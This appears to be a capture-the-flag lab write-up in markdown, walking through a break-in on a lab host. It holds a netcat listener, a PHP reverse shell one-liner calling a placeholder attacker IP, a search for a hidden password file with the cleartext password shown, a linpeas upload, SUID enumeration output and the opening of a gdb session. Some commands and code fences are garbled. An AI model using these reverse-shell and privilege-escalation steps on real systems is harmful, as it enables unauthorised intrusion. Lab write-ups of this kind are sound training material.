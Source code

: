 # Command Execution

``` set up my listener using netcat
nc -l -v -p 443

``` I used the php reversed shell in this site : 
```https://highon.coffee/blog/reverse-shell-cheat-sheet/#php-reverse-shell

php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

``` once i get my access i find the password using find command
find / -user “www-data” -name “*” 2>/dev/null
````
/var/hidden/pass
$ cat /var/hidden/pass
pinguapingu

# LinEnum Linpeash
```` Since I already have the password, I copied linpeash from my machine to the victim computer
└─$ scp /opt linpeas.sh pingu@10.10.1.224:/tmp
pingu@10.10.1.224's password: 
scp: local "/opt" is not a regular file
scp: failed to upload file /opt to /tmp
linpeas.sh   

═══════════════════════════════╣ Interesting Files ╠═══════════════════════════════                                                  
                               ╚═══════════════════╝                                                                                 
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                     
-r-sr-xr-x 1 root papa 7.4K Jan 16  2020 /opt/secret/root (Unknown SUID binary!)                                                     
-rwsr-xr-x 1 root root 134K Jul  4  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 11K May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40K May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 53K May 16  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)        

`````

# PwnDbg

````
gdb /opt/secret/root
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...

````